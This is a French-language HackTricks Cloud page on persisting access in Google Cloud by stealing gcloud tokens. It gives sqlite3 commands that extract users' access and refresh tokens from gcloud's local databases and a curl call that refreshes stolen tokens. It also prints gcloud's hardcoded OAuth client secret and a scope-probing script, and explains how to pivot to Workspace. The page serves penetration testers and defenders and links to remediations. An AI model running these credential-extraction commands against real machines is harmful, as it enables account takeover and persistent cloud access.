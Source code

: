# GCP - Persistance de Token

{% hint style="success" %}
Apprenez et pratiquez le Hacking AWS :<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**Formation HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Apprenez et pratiquez le Hacking GCP : <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**Formation HackTricks GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** nous sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}

### Tokens d'Utilisateur Authentifié

Pour obtenir le **token actuel** d'un utilisateur, vous pouvez exécuter :

{% code overflow="wrap" %}
```bash
sqlite3 $HOME/.config/gcloud/access_tokens.db "select access_token from access_tokens where account_id='<email>';"
```
{% endcode %}

Vérifiez sur cette page comment **utiliser directement ce jeton avec gcloud** :

{% embed url="https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/cloud-ssrf#id-6440-1" %}

Pour obtenir les détails pour **générer un nouveau jeton d'accès**, exécutez :

{% code overflow="wrap" %}
```bash
sqlite3 $HOME/.config/gcloud/credentials.db "select value from credentials where account_id='<email>';"
```
{% endcode %}

Il est également possible de trouver des jetons de rafraîchissement dans **`$HOME/.config/gcloud/application_default_credentials.json`** et dans **`$HOME/.config/gcloud/legacy_credentials/*/adc.json`**.

Pour obtenir un nouveau jeton d'accès rafraîchi avec le **jeton de rafraîchissement**, l'ID client et le secret client, exécutez :

{% code overflow="wrap" %}
```bash
curl -s --data client_id=<client_id> --data client_secret=<client_secret> --data grant_type=refresh_token --data refresh_token=<refresh_token> --data scope="https://www.googleapis.com/auth/cloud-platform https://www.googleapis.com/auth/accounts.reauth" https://www.googleapis.com/oauth2/v4/token
```
{% endcode %}

La validité des jetons de rafraîchissement peut être gérée dans **Admin** > **Sécurité** > **Contrôle de session Google Cloud**, et par défaut, elle est définie sur 16h bien qu'elle puisse être définie pour ne jamais expirer :

<figure><img src="../../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

### Flux d'authentification

Le flux d'authentification lors de l'utilisation de quelque chose comme `gcloud auth login` ouvrira une invite dans le navigateur et après avoir accepté tous les scopes, le navigateur enverra une requête comme celle-ci au port http ouvert par l'outil :
```
/?state=EN5AK1GxwrEKgKog9ANBm0qDwWByYO&code=4/0AeaYSHCllDzZCAt2IlNWjMHqr4XKOuNuhOL-TM541gv-F6WOUsbwXiUgMYvo4Fg0NGzV9A&scope=email%20openid%20https://www.googleapis.com/auth/userinfo.email%20https://www.googleapis.com/auth/cloud-platform%20https://www.googleapis.com/auth/appengine.admin%20https://www.googleapis.com/auth/sqlservice.login%20https://www.googleapis.com/auth/compute%20https://www.googleapis.com/auth/accounts.reauth&authuser=0&prompt=consent HTTP/1.1
```
Ensuite, gcloud utilisera l'état et le code avec un `client_id` codé en dur (`32555940559.apps.googleusercontent.com`) et **`client_secret`** (`ZmssLNjJy2998hD4CTg2ejr2`) pour obtenir les **données finales du jeton de rafraîchissement**.

{% hint style="danger" %}
Notez que la communication avec localhost se fait en HTTP, il est donc possible d'intercepter les données pour obtenir un jeton de rafraîchissement, cependant ces données ne sont valides qu'une seule fois, donc cela serait inutile, il est plus facile de simplement lire le jeton de rafraîchissement à partir du fichier.
{% endhint %}

### Portées OAuth

Vous pouvez trouver toutes les portées Google sur [https://developers.google.com/identity/protocols/oauth2/scopes](https://developers.google.com/identity/protocols/oauth2/scopes) ou les obtenir en exécutant :

{% code overflow="wrap" %}
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-A/\-\._]*' | sort -u
```
{% endcode %}

Il est possible de voir quels scopes l'application que **`gcloud`** utilise pour s'authentifier peut prendre en charge avec ce script :
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope         \r"
if ! curl -v "https://accounts.google.com/o/oauth2/auth?response_type=code&client_id=32555940559.apps.googleusercontent.com&redirect_uri=http%3A%2F%2Flocalhost%3A8085%2F&scope=openid+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fuserinfo.email+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fcloud-platform+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fappengine.admin+$scope+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fsqlservice.login+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fcompute+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Faccounts.reauth&state=AjvFqBW5XNIw3VADagy5pvUSPraLQu&access_type=offline&code_challenge=IOk5F08WLn5xYPGRAHP9CTGHbLFDUElsP551ni2leN4&code_challenge_method=S256" 2>&1 | grep -q "error"; then
echo ""
echo $scope
fi
done
```
Après l'exécution, il a été vérifié que cette application prend en charge ces portées :
```
https://www.googleapis.com/auth/appengine.admin
https://www.googleapis.com/auth/bigquery
https://www.googleapis.com/auth/cloud-platform
https://www.googleapis.com/auth/compute
https://www.googleapis.com/auth/devstorage.full_control
https://www.googleapis.com/auth/drive
https://www.googleapis.com/auth/userinfo.email
```
c'est intéressant de voir comment cette application prend en charge le **`drive`** scope, ce qui pourrait permettre à un utilisateur d'escalader de GCP à Workspace si un attaquant parvient à forcer l'utilisateur à générer un token avec ce scope.

**Vérifiez comment** [**en abuser ici**](../gcp-to-workspace-pivoting/#abusing-gcloud)**.**

### Comptes de service

Tout comme avec les utilisateurs authentifiés, si vous parvenez à **compromettre le fichier de clé privée** d'un compte de service, vous pourrez **y accéder généralement aussi longtemps que vous le souhaitez**.\
Cependant, si vous volez le **token OAuth** d'un compte de service, cela peut être encore plus intéressant, car, même si par défaut ces tokens ne sont utiles que pendant une heure, si la **victime supprime la clé API privée, le token OAuth restera valide jusqu'à son expiration**.

### Métadonnées

Évidemment, tant que vous êtes à l'intérieur d'une machine fonctionnant dans l'environnement GCP, vous pourrez **accéder au compte de service attaché à cette machine en contactant le point de terminaison des métadonnées** (notez que les tokens OAuth auxquels vous pouvez accéder à ce point de terminaison sont généralement restreints par des scopes).

### Remédiations

Certaines remédiations pour ces techniques sont expliquées dans [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)

### Références

* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1)
* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)

{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Vérifiez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop)!
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez-nous sur** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}
